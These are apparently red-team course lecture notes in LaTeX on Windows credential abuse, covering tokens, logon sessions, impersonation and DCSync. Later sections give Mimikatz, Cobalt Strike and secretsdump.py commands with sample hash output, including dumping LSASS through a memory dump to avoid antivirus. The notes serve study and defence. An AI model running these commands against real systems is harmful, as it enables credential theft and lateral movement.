
\chapter{Mimikatz}
\newpage

\section{lecture}

\subsection{Credential Abuse}
Remember, compromized credentials are key for privilege escalation and lateral movement.
Creds are stored on several locations on a windows machine, learn where and how to get them!


\includegraphics[width=\textwidth]{resources/11-abuse-general-approach.png}

% Flow diagram using TikZ
% \begin{tikzpicture}[node distance=2cm]
    % \node (thread) {Thread/Process};
% \node[right=of thread] (token) {Token};
% \node[right=of token] (logon) {Logon Session};
% \node[right=of logon] (auth) {Auth Package};
% \node[right=of auth] (cred) {Credential};
% 
% \draw[->] (thread) -- (token);
% \draw[->] (token) -- (logon);
% \draw[->] (logon) -- (auth);
% \draw[->] (auth) -- (cred);
% \end{tikzpicture}


\includegraphics[width=\textwidth]{resources/11-win-credential-management.png}

\subsubsection*{Tokens - Current security context of a process/thread}
\begin{itemize}
    \item If a thread/process wants to \textbf{act in the name of a user}, it uses a token
    \item Tokens are \textbf{tied to a logon session} and determine how the cred is used
\end{itemize}

\subsubsection*{Logon Session - Windows creates a logon session upon successful authentication}
\begin{itemize}
    \item User Credentials are \textbf{stored in lsass.exe} (OS might use them later to SSO to other services)
    \item User Credentials are \textbf{tied to authentication packages} inside of the logon session, e.g.
    \begin{itemize}
        \item \textbf{NTLM} hashes
        \item \textbf{Kerberos} tickets/keys
        \item \textbf{Passwords} in plaintext
    \end{itemize}
\end{itemize}

\subsubsection*{Logon Session}

\includegraphics[width=\textwidth]{resources/11-logon-session-and-token.png}
Have authentication packages, which store credentials

\subsubsection*{Logon Session Types}
Important logon types to understand:

\begin{itemize}
   \item \textbf{Network Logons} (Type 3) -- clients prove they have the credentials but \textbf{do not send them}
   \begin{itemize}
       \item \textit{e.g. NTLM challenge/response (aka pass-the-hash) on SMB file server}
       \item $\Rightarrow$ see topic ``NTLM Authentication \& Abuse''
   \end{itemize}
   
   \item \textbf{Non-Network Logons} (Interactive/NetworkCleartext/...) -- \textbf{credentials are sent} to the server and therefore stored in LSASS memory
   \begin{itemize}
       \item \textit{e.g. RDP interactive logon}
   \end{itemize}
\end{itemize}

\subsubsection*{Windows Authentication Flow Example}

\begin{itemize}
   \item \textbf{Process/Thread Level:}
   \begin{itemize}
       \item Process ``cmd.exe'' running with TokenID=98323
   \end{itemize}
   
   \item \textbf{Token Level:}
   \begin{itemize}
       \item TOKEN contains TokenID=98323 (matching the process)
       \item Associated with LogonID=3142081
   \end{itemize}
   
   \item \textbf{Logon Session Level:}
   \begin{itemize}
       \item LOGON SESSION with LogonID=3142081 (matching the token)
       \item LogonType=2 (indicating interactive logon)
       \item Configured Authentication Packages:
       \begin{itemize}
           \item wdigest
           \item msv (LM/NTLM)
           \item kerberos
       \end{itemize}
   \end{itemize}
   
   \item \textbf{Credential Level:}
   \begin{itemize}
       \item Authentication packages store different credential forms:
       \begin{itemize}
           \item wdigest: stores cleartext password ``gugus.gugus''
           \item msv: stores NTLM hash ``c077ee82b5b...''
       \end{itemize}
   \end{itemize}
\end{itemize}

\textbf{Security Implications:}
This demonstrates:
\begin{itemize}
   \item Location of credential storage in memory
   \item Process linkage to authentication data
   \item Potential security risks (e.g., wdigest storing cleartext credentials)
\end{itemize}



\includegraphics[width=\textwidth]{resources/11-logon-session-token-2.png}

\subsubsection*{Analysis of Windows Authentication State}

This example demonstrates multiple logon sessions and their relationships:

\begin{itemize}
   \item \textbf{First Logon Session (Interactive):}
   \begin{itemize}
       \item LogonID: 3142081
       \item LogonType: 2 (interactive)
       \item Authentication Packages:
       \begin{itemize}
           \item wdigest: hunter2
           \item msv: 6608e4bc7b2...
       \end{itemize}
   \end{itemize}
   
   \item \textbf{Second Logon Session (Remote Interactive):}
   \begin{itemize}
       \item LogonID: 501918
       \item LogonType: 10 (remote interactive)
       \item Authentication Packages:
       \begin{itemize}
           \item wdigest: Fall2019!
           \item msv: c077ee82b5fb...
       \end{itemize}
   \end{itemize}
   
   \item \textbf{Process and Thread States:}
   \begin{itemize}
       \item Main Process (cmd.exe):
       \begin{itemize}
           \item TokenID: 98323
           \item LogonID: 3142081 (links to first logon session)
       \end{itemize}
       
       \item Associated Threads:
       \begin{itemize}
           \item Thread 1: TokenID 48293, LogonID 3142081
           \item Thread 2: TokenID 1257, LogonID 501918
           \item Thread 3: TokenID 3201, LogonID 3142081
       \end{itemize}
   \end{itemize}
\end{itemize}

\textbf{Key Observations:}
\begin{itemize}
   \item Multiple threads within the same process can have different tokens
   \item Threads can operate under different logon sessions
   \item Both interactive and remote interactive sessions maintain their own credential sets
   \item Each logon session maintains separate authentication package states
\end{itemize}


\subsubsection{Douple-Hop Problem}

\includegraphics[width=\textwidth]{resources/11-double-hop-problem.png}

When you remotely execute code with \textbf{WMI} or \textbf{WinRM}, you'll receive a token that is tied to a \textbf{Network Logon} session, meaning the credentials are not actually sent to the remote host.

This means that you can't ``double-hop'' and authenticate to other resources in the network from this compromised host!

\textbf{Work arounds} \textit{(based on Cobalt Strike, but conceptually works with any tool)}:

\begin{itemize}
   \item Use \textcolor{red}{another token} that points to a \textbf{non-network logon session}, either by
   \begin{itemize}
       \item stealing a token: \texttt{steal\_token <PID>}
       \item injecting into another process: \texttt{inject [pid] <x86/x64> [listener]}
   \end{itemize}
   
   \item Create a \textcolor{red}{new token} that points to a \textbf{non-network logon session} using stolen credentials
   \begin{itemize}
       \item \texttt{make\_token [DOMAIN\textbackslash{}user] [password]}
       \item \texttt{spawnas [DOMAIN\textbackslash{}user] [password] [listener]}
       \item \texttt{pth [DOMAIN\textbackslash{}user] [HASH]}
   \end{itemize}
\end{itemize}

Load credentials into the current logon session (e.g. pass-the-ticket)

\section*{Token Types \& Impersonation}

\textbf{Primary Tokens} \hspace{1cm} a process token\\
\hspace*{4cm} (security context of user account associated with the process)

\textbf{Impersonation Tokens} \hspace{1cm} a thread token\\
\hspace*{4cm} (used to impersonate other tokens in client/server scenarios, depending on\\
\hspace*{4cm} impersonation level the OS might use the token's creds to auth remotely)

\textbf{Impersonation Levels}

\begin{itemize}
   \item \textit{Anonymous} \hspace{1.5cm} Remote Server can't identify a client, the thread acts as an anonymous user
   
   \item \textit{Identification} \hspace{1.1cm} Remote server can identify user, but not impersonate
   
   \item \textit{\textcolor{purple}{Impersonation}} \hspace{0.8cm} The remote server can identify and impersonate the client across one\\
   \hspace*{4cm} computer boundary (\textbf{Network Logon} to the server)
   
   \item \textit{\textcolor{red}{Delegation}} \hspace{1.3cm} The server can impersonate the client across multiple boundaries, and can\\
   \hspace*{4cm} make calls on behalf of the client (known as Kerberos ``\underline{double hop}'')
\end{itemize}

\begin{tabular}{|l|l|}
    \hline
    \multicolumn{2}{|c|}{\textbf{Token Authentication Capabilities}} \\
    \hline
    \multicolumn{2}{|l|}{\textcolor{blue}{If you steal an \textbf{Impersonation Token}}} \\
    \multicolumn{2}{|l|}{with \textbf{Anonymous} or \textbf{Identification} Impersonation Level,} \\
    \multicolumn{2}{|l|}{\textcolor{orange}{remote authentication will fail!}} \\
    \hline
    \multicolumn{2}{|l|}{\textcolor{blue}{If you steal a \textbf{Process Token}}} \\
    \multicolumn{2}{|l|}{or an \textbf{Impersonation Token}} \\
    \multicolumn{2}{|l|}{with \textbf{Impersonation} or \textbf{Delegation} Level,} \\
    \multicolumn{2}{|l|}{\textcolor{green}{remote authentication might work!}} \\
    \multicolumn{2}{|l|}{\textit{(if the corresponding logon session has credentials in it)}} \\
    \hline
\end{tabular}

For completeness, here's the full version including the definitions:

\begin{tabular}{|l|p{10cm}|}
    \hline
    \textbf{Token Type} & \textbf{Description} \\
    \hline
    Primary Tokens & A process token (security context of user account associated with the process) \\
    \hline
    Impersonation Tokens & A thread token (used to impersonate other tokens in client/server scenarios, depending on impersonation level the OS might use the token's creds to auth remotely) \\
    \hline
\end{tabular}

\vspace{0.5cm}

\begin{tabular}{|l|p{10cm}|}
    \hline
    \textbf{Impersonation Level} & \textbf{Description} \\
    \hline
    \textit{Anonymous} & Remote Server can't identify a client, the thread acts as an anonymous user \\
    \hline
    \textit{Identification} & Remote server can identify user, but not impersonate \\
    \hline
    \textit{\textcolor{purple}{Impersonation}} & The remote server can identify and impersonate the client across one computer boundary (\textbf{Network Logon} to the server) \\
    \hline
    \textit{\textcolor{red}{Delegation}} & The server can impersonate the client across multiple boundaries, and can make calls on behalf of the client (known as Kerberos ``\underline{double hop}'') \\
    \hline
\end{tabular}

\subsubsection{Impersonating Tokens - Mimikatz}
Mimikatz can interact with process and thread tokens. The token:: module enables to interact with authentication tokens, including grabbing and impersonating existing tokens.

\textbf{token::list} - list all tokens of the system 
\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-impersonating-tokens.png}
\end{center}

\textbf{token::elavate /id:<tokenId>} - impersonate a token (by default elevating to SYSTEM)
\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-impersonating-tokens-2.png}
\end{center}


\subsubsection{Impersonating Tokens - Cobalt Strike}
\begin{tabularx}{\textwidth}{l l}
    \textbf{Cobalt Strike <PID>} & command will impersonate the token of the given process ID, granted you have rights to impersonate \\
    \textbf{rev2self} & will revert back to your normal token security context  \\
    \textbf{Cobalt Strike} & can create new logon sessions and point token to that: \\
    \textbf{make\_token <DOMAIN\textbackslash{}user> <password>} & Creates a new logon session using stolen credentials (logon type 9 - NewCredentials) \\
\end{tabularx}

\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-impersonating-token-cobalt-strike.png}
\end{center}

Credentials (New Logon Session) only used when you interact with network resources
\begin{itemize}
    \item No effect on local actions (The “Impersonated X” output will appear incorrect...)
    \item Doesn't validate creds until you authenticate to a remote resource
\end{itemize}

\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-impersonating-tokens-cobalt-strike-2.png}
\end{center}

\subsection{Mimikatz}

\begin{itemize}
   \item Post exploitation tool to retrieve/handle credentials in various formats
   \item Requires local admin privileges
   \item Retrieve credentials from LSASS memory or SAM files:
   \begin{itemize}
       \item Cleartext passwords \hspace{1cm} $\Rightarrow$ \textit{depends on Windows version and GPO settings}
       \item NTLM hashes \hspace{1.5cm} $\Rightarrow$ used for PASS THE HASH attacks
       \item Kerberos tickets \hspace{1.2cm} $\Rightarrow$ used for PASS THE HASH attacks
   \end{itemize}
   \item Can perform \textbf{pass-the-hash} and \textbf{pass-the-ticket} attacks
   \item Can build custom (golden) tickets (used for Kerberos authentication)
\end{itemize}

\begin{itemize}
   \item Author Benjamin Delpy updates code often, pay attention to Twitter: \href{https://twitter.com/gentilkiwi}{@gentilkiwi}
   
   \item Unofficial Guide to Mimikatz \& Command Reference: \href{https://adsecurity.org/?page_id=1821}{adsecurity.org/?page\_id=1821}
   
   \item List all parent modules
   \begin{verbatim}
   mimikatz # ::
   \end{verbatim}
   
   \item List \textbf{submodules} for a given parent
   \begin{verbatim}
   mimikatz # sekurlsa::
   \end{verbatim}
   
   \item Many Mimikatz modules require \textbf{SeDebugPrivilege} privileges, use
   \begin{verbatim}
   privilege::debug or token::elevate
   \end{verbatim}
   $\Rightarrow$ Needs Administrator rights AND elevated process (High Integrity Level)
\end{itemize}

\texttt{lsadump::<module>} allows to \textbf{interact with the local security authority (LSA)}, in order to \textbf{extract local credentials} from a machine.

\begin{itemize}
\item On running machine:
\begin{verbatim}
mimikatz # token::elevate
mimikatz # lsadump::sam
\end{verbatim}

\item OR
\begin{verbatim}
reg save HKLM\SYSTEM SYSTEM.hiv  
reg save HKLM\SAM SAM.hiv
\end{verbatim}

\item Shutdown system, copy the following files:
\begin{verbatim}
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
\end{verbatim}

\item Process files offline:
\begin{verbatim}
mimikatz # lsadump::sam /system:SYSTEM.hiv /sam:SAM.hiv
\end{verbatim}
\end{itemize}

\begin{lstlisting}[language=sh]
mimikatz # lsadump::sam
SysKey : ea0fad2f73ad366efc9b1370
Local SID : S-1-5-21-301793094
SAMKey : 364d77a8399af95033658c14
RID : 000001F4 (500)
User : Administrator
Hash :  4771c20913beb882cb621a6
RID : 000001F5 (501)
User : Guest
NTLM :
\end{lstlisting}

\subsubsection*{Mimikatz -- Dumping Credentials from LSASS Memory}

\texttt{sekurlsa::<module>} allows to \textbf{interact with the local security authority subsystem} process memory (\textbf{LSASS.exe})

\begin{lstlisting}[language=sh]
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # log sekurlsa.log
Using 'sekurlsa.log' for logfile : OK
mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; 88038 (00000000:00157e6)
Session           : Interactive from 1
User Name         : Gentil Kiwi
Domain           : vm-w7-ult
SID              : S-1-5-21-2044528444-627255920-3055224092-1000
       msv :
        * Username : Gentil Kiwi
        * Domain   : vm-w7-ult
        * LM       : d0e9ace149655a6075e4540af1f22d3b
        * NTLM     : cc36cf7a8514893efccd332446158b1a
\end{lstlisting}

\subsubsection*{Mimikatz - Reading Credentials from LSASS memory Dump}

Interacting with lsass.exe's memory \textcolor{purple}{is enemy \#1} for defensive products (e.g. AV),\\ 
therefore obtain lsass.exe memory via other means (taskmgr, procdump, ...)

\begin{lstlisting}[language=sh]
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 88038 (00000000:00157e6)
Session           : Interactive from 1
User Name         : Gentil Kiwi
Domain           : vm-w7-ult
SID              : S-1-5-21-2044528444-627255920-3055224092-1000
       msv :
        * Username : Gentil Kiwi  
        * Domain   : vm-w7-ult
        * LM       : d0e9aee149655a6075e4540af1f22d3b
        * NTLM     : cc36cf7a8514893efccd332446158b1a
\end{lstlisting}

\subsubsection*{mimikatz - Understanding the output}
\begin{center}
    
\includegraphics[width=\textwidth]{resources/11-mimikatz-understanding-the-output.png}
\end{center}

\subsection{DCSync}
\begin{itemize}
    \item Late-stage attack to obtain arbitrary user- and machine creds (Kerberos keys / NTLM hashes)
    \item Relies on data replication features between multiple domain controller via Microsoft Directory Replication Service Remote Protocol (MS-DRSR)
    \item Basically: "Simulate a DC asking another DC to replicate one or more object incl. credentials"
    \item Requires specific privileges (by default only active for Domain Admins and Domain Controllers):
\end{itemize}

\subsubsection*{DCSync - secretsdumps.py}
\begin{lstlisting}[language=sh]
# secretsdump.py -hashes :e4[CUT]f9 -just-dc -just-dc-user user1 dc@10.0.1.100
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
mydomain.local\user1:1127:aad3b435b51404eeaad3b435b51404ee:8cf0345c0d74a3efa5b598
489493cf47b::
[*] Kerberos keys grabbed
[CUT]
[*] Cleaning up...
\end{lstlisting}

\subsubsection*{DCSync - Mimikatz}
\begin{lstlisting}[language=sh]
mimikatz # lsadump::dcsync /domain:mydomain.local /user:someuser
[DC] mydomain.local' will be the domain
